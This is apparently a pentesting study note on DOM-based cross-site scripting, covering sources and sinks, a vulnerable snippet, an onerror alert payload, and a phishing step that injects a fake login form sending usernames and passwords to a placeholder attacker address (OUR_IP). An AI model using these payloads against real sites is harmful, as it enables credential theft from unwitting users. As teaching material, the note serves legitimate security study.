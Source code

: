 ### Source & Sink

The _Source_ is the JavaScript object that takes the user input, and it can be any input parameter like a URL parameter or an input field

_Sink_ is the function that writes the user input to a DOM Object on the page. If the Sink function does not properly sanitize the user input, it would be vulnerable to an XSS attack.

Some of the commonly used JavaScript functions to write to DOM objects are:

* document.write()
* DOM.innerHTML
* DOM.outerHTML Furthermore, some of the jQuery library functions that write to DOM objects are:
* add()
* after()
* append() Example code vulnerable to XSS:

```js
var pos = document.URL.indexOf("task=");
var task = document.URL.substring(pos + 5, document.URL.length
```

To write task variable

```js
document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);
```

Previous payloads won't work so

```html
<img src="" onerror=alert(window.origin)>
```

## Phishing

Find a working payload with XSS Then make a login form

```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

Then use js `document.write()` to write the payload.

```js
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

Now to clean up:&#x20;

<figure><img src="../../.gitbook/assets/XSS (Cross-Site Scripting)-3.png" alt=""><figcaption></figcaption></figure>